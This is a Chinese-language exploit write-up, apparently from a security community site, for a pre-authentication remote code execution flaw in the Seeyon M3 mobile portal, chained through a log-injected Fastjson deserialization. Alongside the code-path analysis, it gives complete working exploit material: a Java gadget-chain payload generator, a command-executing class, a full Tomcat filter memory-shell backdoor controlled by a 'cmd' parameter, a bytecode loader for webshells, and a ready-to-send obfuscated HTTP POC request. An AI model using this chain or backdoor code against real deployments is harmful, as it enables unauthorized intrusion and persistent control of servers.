

# 某远M3 前台远程代码执行漏洞 - 先知社区

某远M3 前台远程代码执行漏洞

- - -

## 致远M3远程代码执行漏洞

## 前言

这个漏洞是今年国家护网爆出来，虽然漏洞类型是个Fastjson漏洞，但个人认为漏洞的具体细节也是挺有趣的。

## 分析

分为两步，第一步是通过`/mobile_portal/api/pns/message/send/batch/6_1sp1`接口将我们的payload存入日志里面，然后通过`/mobile_portal/api/systemLog/pns/loadLog/app.log`接口会将日志中的JSON数据进行反序列化，从而触发Fastjson漏洞。

### 第一步

在这个项目中，获取路由的方式是`@PATH`的注解或者`xxxResource`的类名

进入到`/message/send/batch/6_1sp1`路由

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120161803-5320b2a8-877d-1.png)

跟入`M3PushMessageTask.getInstance()`，获取一个`M3PushMessageTask`实例

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120161822-5eaa336a-877d-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120161834-65e3865e-877d-1.png)

`Thread.start()`方法会开启一个线程，当然`AsynchronizedSendTask`继承了`Runnable`，就会执行run方法

在该方法中，就是获取`addMessageAll`添加进去的message，然后调用`sendMessageByV61sp1`方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120161845-6c861ab2-877d-1.png)

在`sendMessageByV61sp1`方法，会根据我们传入的message中的`serviceProvider`获取对应的PushPublisher

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120161856-731e6712-877d-1.png)

在payload中，我们赋值`"serviceProvider":"baidu"`,进入`BaiduPushPublisher`

`getPushService`也就是获取BaiduPushPublisher实例

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120161905-787db136-877d-1.png)

Payload的`"deviceType":"androidphone"` ,进入sendAndroidMessage方法

这个方法中就是漏洞的重点了

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120161915-7e8bf074-877d-1.png)

代码直接结束后，它会直接将我们message的`userMessageId`直接写到我们的日志中（所以我们fastjson漏洞触发的部分就需要放到`userMessageId`）

### 第二步

我们查看日志，JSON数据放在`/logs_pns/app.log`中

接口就是`/mobile_portal/api/systemLog/pns/loadLog/app.log`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120161928-8625424a-877d-1.png)

读取日志中内容，然后调用`setLogList`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120161938-8c07bdf0-877d-1.png)

`setLogList`方法，直接就调用`JSON.Util.parseJSONString()`触发漏洞

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120161949-925850c0-877d-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120161957-9769db9c-877d-1.png)

触发的调用栈

```plain
at org.apache.commons.beanutils.BeanComparator.compare(BeanComparator.java:171)
    at java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:722)
    at java.util.PriorityQueue.siftDown(PriorityQueue.java:688)
    at java.util.PriorityQueue.heapify(PriorityQueue.java:737)
    at java.util.PriorityQueue.readObject(PriorityQueue.java:797)
    at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
    at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
    at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
    at java.lang.reflect.Method.invoke(Method.java:498)
    at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
    at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
    at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
    at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
    at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
    at com.mchange.v2.ser.SerializableUtils.deserializeFromByteArray(SerializableUtils.java:132)
    at com.mchange.v2.ser.SerializableUtils.fromByteArray(SerializableUtils.java:111)
    at com.mchange.v2.c3p0.impl.C3P0ImplUtils.parseUserOverridesAsString(C3P0ImplUtils.java:341)
    at com.mchange.v2.c3p0.WrapperConnectionPoolDataSource$1.vetoableChange(WrapperConnectionPoolDataSource.java:95)
    at java.beans.VetoableChangeSupport.fireVetoableChange(VetoableChangeSupport.java:375)
    at java.beans.VetoableChangeSupport.fireVetoableChange(VetoableChangeSupport.java:271)
    at com.mchange.v2.c3p0.impl.WrapperConnectionPoolDataSourceBase.setUserOverridesAsString(WrapperConnectionPoolDataSourceBase.java:344)
    at Fastjson_ASM_WrapperConnectionPoolDataSource_8.deserialze(Unknown Source)
    at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:249)
    at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:124)
    at com.alibaba.fastjson.parser.deserializer.ASMJavaBeanDeserializer.deserialze(ASMJavaBeanDeserializer.java:31)
    at Fastjson_ASM_PushMessage_1.deserialze(Unknown Source)
    at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:500)
    at com.alibaba.fastjson.JSON.parseObject(JSON.java:214)
    at com.alibaba.fastjson.JSON.parseObject(JSON.java:174)
    at com.alibaba.fastjson.JSON.parseObject(JSON.java:295)
    at com.seeyon.portal.core.utils.JSONUtil.parseJSONString(JSONUtil.java:83)
    at com.seeyon.portal.rest.resources.LogResource.setLogList(LogResource.java:163)
    at com.seeyon.portal.rest.resources.LogResource.readLog(LogResource.java:112)
    at com.seeyon.portal.rest.resources.LogResource.loadLog(LogResource.java:55)
```

### 总结

这个漏洞的思路挺好的，利用将传入的数据到日志里，然后通过日志读取的接口对日志内容进行Fastjson的反序列化，从而达到RCE。

注意的是：

> JSON.parseObject(jsonString,PushMessage.class) 这种是不能触发Fastjson的

## 漏洞利用

我们利用C3P0依赖的利用Fastjson加载HEX编码，实现二次反序列化，打RCE

反序列化部分，可以利用CB链去打TemplateImpl加载字节码的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231121102145-b7737f96-8814-1.png)

同时因为第一步传入的需要是个`List`类型，所以需要在JSON数据外面加个`[]`

生成反序列化的部分

```plain
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.io.StringWriter;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class M3Payload {
    static void addHexAscii(byte b, StringWriter sw)
    {
        int ub = b & 0xff;
        int h1 = ub / 16;
        int h2 = ub % 16;
        sw.write(toHexDigit(h1));
        sw.write(toHexDigit(h2));
    }

    private static char toHexDigit(int h)
    {
        char out;
        if (h <= 9) out = (char) (h + 0x30);
        else out = (char) (h + 0x37);
        return out;
    }

    //字节数组转十六进制
    public static String toHexAscii(byte[] bytes)
    {
        int len = bytes.length;
        StringWriter sw = new StringWriter(len * 2);
        for (int i = 0; i < len; ++i)
            addHexAscii(bytes[i], sw);
        return sw.toString();
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.get(Serialize_Evil.class.getName());
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{ctClass.toBytecode()});
        setFieldValue(templates, "_name", "123");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        BeanComparator beanComparator = new BeanComparator("outputProperties");
        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);
        setFieldValue(priorityQueue, "queue", new Object[]{templates, templates});
        setFieldValue(priorityQueue, "size", 2);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(priorityQueue);
        System.out.println(toHexAscii(baos.toByteArray()));
    }
}
```

```plain
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class  Serialize_Evil extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public Serialize_Evil() throws Exception {
        super();
        Runtime.getRuntime().exec("ping xxxxx");
    }
}
```

如果要打一个filter内存马

```plain
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Map;

public class Serialize_FilterMemshell extends AbstractTranslet implements Filter{

    private final String cmdParamName = "cmd";
    private final static String filterUrlPattern = "/filter";
    private final static String filterName = "TestFilter";

    static {
        try {
            //获取StandardContext
            Class c = Class.forName("org.apache.catalina.core.StandardContext");
            java.lang.reflect.Field contextField = org.apache.catalina.core.StandardContext.class.getDeclaredField("context");
            contextField.setAccessible(true);
            org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase =
                    (org.apache.catalina.loader.WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            org.apache.catalina.core.ApplicationContext applicationContext = (org.apache.catalina.core.ApplicationContext) contextField.get(webappClassLoaderBase.getResources().getContext());
            Field stdctx = applicationContext.getClass().getDeclaredField("context");  // 获取属性
            stdctx.setAccessible(true);
            StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
            //获取filterConfigs
            Field Configs = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            Map filterConfigs = (Map) Configs.get(standardContext);
            if (filterConfigs.get(filterName) == null){
                Filter filter=new Serialize_FilterMemshell();

                FilterDef filterDef = new FilterDef();
                filterDef.setFilter(filter);
                filterDef.setFilterName(filterName);
                filterDef.setFilterClass(filter.getClass().getName());
                standardContext.addFilterDef(filterDef);

                FilterMap filterMap = new FilterMap();
                filterMap.addURLPattern("/filter");
                filterMap.setFilterName(filterName);
                filterMap.setDispatcher(DispatcherType.REQUEST.name());

                standardContext.addFilterMapBefore(filterMap);

                Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
                constructor.setAccessible(true);
                ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

                filterConfigs.put(filterName,filterConfig);

                if (standardContext != null){
                    //将我们的filter放到最前面
                    Class ccc = null;
                    try {
                        ccc = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
                    } catch (Throwable t){}
                    if (ccc == null) {
                        try {
                            ccc = Class.forName("org.apache.catalina.deploy.FilterMap");
                        } catch (Throwable t){}
                    }


                    Method m = c.getMethod("findFilterMaps");
                    Object[] filterMaps = (Object[]) m.invoke(standardContext);
                    Object[] tmpFilterMaps = new Object[filterMaps.length];
                    int index = 1;
                    for (int i = 0; i < filterMaps.length; i++) {
                        Object o = filterMaps[i];
                        m = ccc.getMethod("getFilterName");
                        String name = (String) m.invoke(o);
                        if (name.equalsIgnoreCase(filterName)) {
                            tmpFilterMaps[0] = o;
                        } else {
                            tmpFilterMaps[index++] = filterMaps[i];
                        }
                    }
                    for (int i = 0; i < filterMaps.length; i++) {
                        filterMaps[i] = tmpFilterMaps[i];
                    }

                }
            }

        } catch (Exception e){
            e.printStackTrace();
        }
    }


    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) servletRequest;
        System.out.println("Do Filter ......");
        String cmd;
        if ((cmd = servletRequest.getParameter(cmdParamName)) != null && servletRequest.getParameter("flag").equals("qwer")) {
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
            return;
        }
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {

    }
}
```

但是实战中更常用的是打一个冰蝎马或者哥斯拉马，我们利用JMG工具生成对应的字节码，然后直接加载字节码即可。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120162242-f9ff1cd6-877d-1.png)

```plain
String str = "xxxxx";
byte[] bytes = Base64.getDecoder().decode(str);
Field theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
theUnsafe.setAccessible(true);
Unsafe unsafe = (Unsafe)theUnsafe.get(null);
unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), bytes, null).newInstance();
```

## POC

[https://mp.weixin.qq.com/s/9TsQhLcTSVDYW3usG1j5Xw](https://mp.weixin.qq.com/s/9TsQhLcTSVDYW3usG1j5Xw)

对于unicode字符，FastJSON会自动处理解析的

```plain
POST /mobile_portal/api/pns/message/send/batch/6_1sp1 HTTP/1.1
Host: User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Hm_lvt_82116c626a8d504a5c0675073362ef6f=1666334057
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: application/json
Content-Length: 3680

[{"userMessageId":"{\"@\u0074\u0079\u0070\u0065\":\"\u0063\u006f\u006d\u002e\u006d\u0063\u0068\u0061\u006e\u0067\u0065\u002e\u0076\u0032\u002e\u0063\u0033\u0070\u0030\u002e\u0057\u0072\u0061\u0070\u0070\u0065\u0072\u0043\u006f\u006e\u006e\u0065\u0063\u0074\u0069\u006f\u006e\u0050\u006f\u006f\u006c\u0044\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\",\"\u0075\u0073\u0065\u0072\u004f\u0076\u0065\u0072\u0072\u0069\u0064\u0065\u0073\u0041\u0073\u0053\u0074\u0072\u0069\u006e\u0067\":\"\u0048\u0065\u0078\u0041\u0073\u0063\u0069\u0069\u0053\u0065\u0072\u0069\u0061\u006c\u0069\u007a\u0065\u0064\u004d\u0061\u0070:HEX;\"}|","channelId":"111","title":"111","content":"222","deviceType":"androidphone","serviceProvider":"baidu","deviceFirm":"other"}]
```

然后再 Get 访问`/mobile_portal/api/systemLog/pns/loadLog/app.log`
